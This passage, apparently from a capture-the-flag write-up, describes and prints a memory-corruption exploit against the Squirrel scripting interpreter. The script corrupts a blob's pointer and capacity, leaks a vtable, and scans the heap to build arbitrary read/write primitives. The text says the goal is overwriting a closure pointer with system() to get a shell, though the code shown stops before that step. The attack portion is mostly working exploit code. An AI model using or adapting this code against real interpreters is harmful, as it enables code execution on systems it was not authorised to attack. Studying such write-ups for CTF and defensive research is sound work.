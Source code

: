 After that, we can now read/write at arbitrary offsets by settings `_ptr`. We first use that to leak the vtable (so we get the location of the text segment for the squirrel lib), and then build some more primitives
to get full arbitrary read write.

To obtain a shell, we leak the address of a closure and overwrite its pointer with the pointer of the `system` function inside the squirrel lib. Here's the full exploit:

```
local OT_INTEGER = 0x5000002;
local OT_NATIVECLOSURE = 0x8000200;

# declare some functions for the compiler (these are replaced by the patcher)
# function stack2048();
function debugtrap(...) {}

# setMinus8 will write whatever we give it as argument to offset -8 in the stack
# (calls to this function are modified by the patcher)
function setMinus8(x) {
  return x;
}

# make blob allocations after stack
local blobs = array(1000)
for(local i = 0; i < blobs.len(); ++i) {
  blobs[i] = blob(0x20);
}
local buffer = blob(0x20);
local victim = blob(0x20)

# increase stack 
# after this, the stack should be located right after the last blob
stack2048()

# grow the blob buffer by overwritting capacity
# this sets the blob's _capacity to OT_INTEGER and _ptr to 0x1000
setMinus8(1000);
victim.writen(0, 'c')
printf("size %d\n", victim.len())

# set the _ptr to -0x40, where we find a vtable (of the blob object)
setMinus8(-0x40)
debugtrap(victim)
local vtable = victim.readn('l')
printf("vtable %#x\n", vtable)

# build a better primitive:
# we will scan backward to find the second-last allocated blob
# we can identify it by checking for the vtable ptr
local idx = -0x40
while (true) {
      idx -= 0x8;
      setMinus8(idx);
      if (victim.readn('l') == vtable) {
      break
      }
}
printf("found buffer blob at offset -%#x\n", -idx)

# now we can directly change the size of the 2nd-last blob (buffer) using the corrupt blob (victim)
victim.writen( 0x1337, 'l')
printf("buffer size %x\n", buffer.len())

# since buffer is at a lower heap address than victim, 
# the victim blob object is inside the data of buffer 
```